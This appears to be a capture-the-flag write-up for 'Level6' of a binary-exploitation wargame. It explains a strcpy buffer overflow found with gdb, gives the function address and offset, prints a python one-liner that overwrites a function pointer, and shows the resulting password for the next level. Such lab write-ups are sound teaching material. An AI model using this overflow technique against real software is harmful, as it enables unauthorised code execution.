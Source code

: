 # Level6

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level6
  Segmentation fault (core dumped)
  $> ./level6 "teststring"
  Nope
```

> It seems we need to input something as argument.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). This time a **buffer overflow** is possible due to [`strcpy()`](https://linux.die.net/man/3/fgets) being used. According to the documentation...

> If the destination string of a `strcpy()` is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.

Since our input can be arbitrary long, we can exploit this vulnerability to modify memory. Thanks to `gdb` we found that the `Nope` message is output by a function that is assigned to a pointer and there is another function that makes a `system()` call giving us the password for next level. All we have to do is:

- Find the address of the other function (`0x08048454`).
- Get the buffer offset (**72**).

Like this, we can tinker an input that overwrite what's stored inside the function pointer address.

```shell
  $> ./level6 `python -c 'print "0" * 72 + "\x08\x04\x84\x54"[::-1]'`
  f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

> This simply shifts the value `0x08048454` **72** bytes further into the memory where the function pointer is located.

So next user credentials pair is `level7:f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`.

Check [here](./source.c) for reproduction source-code of this binary.